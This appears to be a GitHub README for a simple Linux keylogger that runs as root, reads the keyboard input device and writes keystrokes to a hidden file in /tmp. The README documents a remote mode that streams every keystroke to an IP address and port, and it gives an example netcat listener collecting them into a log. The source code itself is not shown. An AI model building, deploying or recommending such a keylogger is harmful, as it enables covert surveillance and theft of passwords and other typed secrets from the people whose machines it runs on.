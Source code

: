 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d: input device (if not specified, the default device is '/dev/input/by-path/***kbd')<br>
	-o: output file. (It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt')<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE<br>
Server$ nc lvp 8888 > logger.txt<br><br>
Client#./slk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(Keys are mapped on English keyboard)
